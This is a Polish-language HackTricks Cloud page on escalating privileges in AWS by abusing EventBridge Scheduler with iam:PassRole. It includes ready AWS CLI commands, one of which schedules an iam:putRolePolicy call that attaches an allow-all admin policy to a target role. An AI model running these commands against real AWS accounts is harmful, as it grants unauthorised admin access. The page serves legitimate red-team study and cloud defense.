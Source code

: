# AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler może być używany do eskalacji uprawnień poprzez planowanie wywołań do różnych usług AWS. Wykorzystując zdolność do wywoływania usług na podstawie harmonogramu, użytkownicy z wystarczającymi uprawnieniami mogą eskalować uprawnienia. Oto niektóre z kluczowych działań, które EventBridge Scheduler może wywołać, używając szablonowych celów:

* Lambda: lambda:InvokeFunction - Wywołaj funkcje Lambda zgodnie z harmonogramem.
* CodeBuild: codebuild:StartBuild - Rozpocznij projekty AWS CodeBuild.
* CodePipeline: codepipeline:StartPipelineExecution - Wyzwól wykonania AWS CodePipeline.
* ECS: ecs:RunTask - Uruchom zadania ECS.
* EventBridge: events:PutEvents - Umieść zdarzenia w EventBridge.
* Inspector: inspector:StartAssessmentRun - Rozpocznij oceny Amazon Inspector.
* Kinesis: kinesis:PutRecord - Umieść rekordy w strumieniach Kinesis.
* Firehose: firehose:PutRecord - Umieść rekordy w strumieniach dostarczania Firehose.
* SageMaker: sagemaker:StartPipelineExecution - Rozpocznij wykonania potoków SageMaker.
* SNS: sns:Publish - Publikuj wiadomości w tematach SNS.
* SQS: sqs:SendMessage - Wyślij wiadomości do kolejek SQS.
* Step Functions: states:StartExecution - Rozpocznij wykonania AWS Step Functions.

To tylko niektóre z szablonowych działań, które EventBridge Scheduler może wykonać. Jednakże, korzystając z uniwersalnych celów, można wywołać wiele innych działań w usługach AWS. Uniwersalne cele pozwalają na bardziej rozbudowane operacje API poza szablonową listą.

Więcej informacji o EventBridge Scheduler w:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Użytkownicy z uprawnieniami `sts:AssumeRole`, `iam:PassRole` oraz `scheduler:CreateSchedule lub scheduler:UpdateSchedule` mogą eskalować uprawnienia, wykorzystując EventBridge Scheduler do wywoływania usług przy użyciu roli z wyższymi uprawnieniami.

Dzięki tym uprawnieniom, atakujący może przyjąć rolę z podwyższonymi uprawnieniami i przekazać tę rolę do EventBridge Scheduler podczas tworzenia lub aktualizacji harmonogramu. Harmonogram można skonfigurować do wykonania dowolnych działań wymienionych wcześniej, takich jak wywoływanie funkcji Lambda, uruchamianie zadań ECS, wyzwalanie wykonania CodePipeline lub jakiejkolwiek operacji z 270 usług AWS wspieranych przez EventBridge Scheduler. Poprzez planowanie tych działań, atakujący mógłby nadużyć wyższych uprawnień do wykonywania nieautoryzowanych operacji w usługach AWS. \\

Na przykład, mogliby skonfigurować harmonogram do wywołania funkcji Lambda, która jest szablonowym działaniem:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Oprócz ztemplatyzowanych działań serwisowych, możesz używać uniwersalnych celów w EventBridge Scheduler, aby wywołać szeroki zakres operacji API dla wielu usług AWS. Uniwersalne cele oferują elastyczność w wywoływaniu prawie każdego API. Jednym z przykładów może być użycie uniwersalnych celów dodających "AdminAccessPolicy", używając roli, która ma politykę "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
